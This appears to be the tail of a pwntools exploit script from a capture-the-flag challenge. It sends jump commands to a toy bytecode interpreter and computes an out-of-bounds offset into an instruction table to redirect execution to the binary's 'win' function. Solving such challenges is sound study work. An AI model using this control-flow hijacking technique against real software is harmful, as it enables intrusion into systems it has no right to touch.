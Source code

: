 ```python
# JUMP 3
p.sendline(b'6')
p.sendline(b'3')

# JUMP win
p.sendline(b'6')
off = (elf.sym.bytecode+5*8 - elf.sym.instruction_table)//8
p.sendline(str(off).encode())

#Pointer to win
p.sendline(b'6')
p.sendline(str(elf.sym['win']).encode())


p.interactive()

p.close()
```

